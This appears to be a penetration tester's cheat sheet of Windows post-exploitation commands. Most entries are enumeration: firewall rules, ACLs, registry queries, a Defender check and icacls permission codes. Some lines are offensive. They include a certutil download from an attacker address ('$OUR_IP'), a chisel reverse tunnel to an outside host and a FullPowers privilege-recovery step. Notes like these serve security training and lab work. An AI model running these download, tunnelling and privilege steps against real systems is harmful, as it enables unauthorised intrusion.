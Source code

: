 # Tricks

```powershell
# Download files if iwr doesn't work
certutil.exe -f -urlcache http://$OUR_IP/example.txt example.txt

# Run an executable as a process in the background
Start-Process -FilePath ".\chisel.exe" -ArgumentList "client 192.168.1.10:8000 R:8888:localhost:8888" -NoNewWindow

# Check for defender
Get-MpPreference

# Stop processes
Get-Process $PROCESS_NAME | Stop-Process
Get-Process | Where-Object { $_.ProcessName -like '*$PROCESS_NAME*' } | Stop-Process

# Open explorer in the current directory
Invoke-Item .

---

# Check inbound/outbound firewall rules
netsh advfirewall firewall show rule name=all dir=in
netsh advfirewall firewall show rule name=all dir=out

# Check ARP table
arp -a

# Check environment variables
Get-ChildItem env:

# List permissions
Get-Acl -Path HKLM:SYSTEM\CurrentControlSet\Services\LanmanServer\DefaultSecurity\ | fl
Get-Acl Microsoft | Select-Object -ExpandProperty Owner

# Query registry key
reg query "HKLM\SOFTWARE\Key" /s
reg query "HKLM\SOFTWARE\Key" /v EncKey
```

**Notable Groups:**

```bash
Administrators             # Full control
Remote Desktop Users       # Remote access via RDP
Remote Management Users    # Remote access via WinRM
```

`icacls` permissions mask table (ACE = access control entry)

- `F` - Full access
- `M` - Modify access
- `RX` - Read and execute access
- `R` - Read-only access
- `W` - Write-only access

Inheritance rights ([MSDN](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls))

- `I` - Inherit. ACE inherited from the parent container
- `OI` - Object inherit. Objects in this container will inherit this ACE. Applies only to directories.
- `CI` - Container inherit. Containers in this parent container will inherit this ACE. Applies only to directories.
- `IO` - Inherit only. ACE inherited from the parent container, but does not apply to the object itself. Applies only to directories.
- `NP` - Do not propagate inherit. ACE inherited by containers and objects from the parent container, but does not propagate to nested containers. Applies only to directories.

**Role is `nt authority\local service` without `SeImpersonatePrivilege` present:**

Commonly the role for a web server running on a windows computer (such as `xampp`)

[FullPowers](https://github.com/itm4n/FullPowers)

```powershell
.\FullPowers.exe
```
